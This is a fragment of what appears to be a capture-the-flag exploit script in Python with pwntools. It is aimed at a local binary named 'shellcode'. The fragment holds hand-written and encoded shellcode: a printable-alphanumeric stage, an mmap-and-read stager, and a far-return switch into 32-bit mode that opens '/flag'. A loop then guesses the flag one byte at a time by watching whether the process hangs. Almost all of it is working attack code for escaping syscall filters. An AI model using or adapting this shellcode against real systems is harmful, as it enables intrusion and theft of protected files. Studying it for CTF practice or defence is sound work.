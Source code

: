 ```plain
        add rsi,r10
        push rsi
        retf

        mov esp,0x40000400
        push 0x0067
        push 0x616c662f
        mov ebx,esp
        xor ecx,ecx
        mov edx,0x7
        mov eax,0x5
        int 0x80

        push 0x33
        push 0x40000037
        retf

        mov rdi,rax
        mov rsi,0x40000500
        mov rdx,0x80
        xor rax,rax
        syscall

        push 0
        cmp byte ptr[rsi+{0}],{1}
        jz $-4
        ret 
    '''.format(a,b)
    # shellcode1 = toPrintable(shellcode1)
    # shellcode2 = asm(shellcode2,arch='amd64')
    # shellcode3 = asm(shellcode3,arch='amd64')
    # print "".join("\\x%02x"%ord(_) for _ in asm(shellcode,arch='amd64'))
    shellcode1 = "Sh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M144x8n0R094y4l0p0S0x188K055M4z0x0A3r054q4z0q2H0p0z402Z002l8K4X00"
    shellcode2 = "\x48\xc7\xc7\x00\x00\x00\x40\x48\xc7\xc6\x00\x10\x00\x00\x48\xc7\xc2\x07\x00\x00\x00\x49\xc7\xc2\x22\x00\x00\x00\x49\xb8\xff\xff\xff\xff\x00\x00\x00\x00\x4d\x31\xc9\x48\xc7\xc0\x09\x00\x00\x00\x0f\x05\x48\x89\xfe\x48\x31\xff\x48\xc7\xc2\x00\x10\x00\x00\x48\x31\xc0\x0f\x05\xff\xe6"
    shellcode3 = "\x49\xba\x00\x00\x00\x00\x23\x00\x00\x00\x48\x83\xc6\x13\x4c\x01\xd6\x56\xcb\xbc\x00\x04\x00\x40\x6a\x67\x68\x2f\x66\x6c\x61\x89\xe3\x31\xc9\xba\x07\x00\x00\x00\xb8\x05\x00\x00\x00\xcd\x80\x6a\x33\x68\x37\x00\x00\x40\xcb\x48\x89\xc7\x48\xc7\xc6\x00\x05\x00\x40\x48\xc7\xc2\x80\x00\x00\x00\x48\x31\xc0\x0f\x05\x6a\x00"
    shellcode3 += asm('cmp byte ptr[rsi+{0}],{1};jz $-3;ret'.format(a,b) if a == 0 else 'cmp byte ptr[rsi+{0}],{1};jz $-4;ret'.format(a,b),arch='amd64')
    p.sendline(shellcode1)
    p.sendline(shellcode2)
    # raw_input()
    p.sendline(shellcode3)
    try:
        p.recv(timeout = 2)
    except:
        p.close()
        return 0
    else:
        return 1
def main():
    flag = [" " for _ in range(0x30)]
    for i in range(0,100):
        # for char in "{}1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
        for char in range(0x20,0x7e+1):
            # char = ord(char)
            p = process("./shellcode")
            if exp(p,i,char):
                flag[i] = chr(char)
```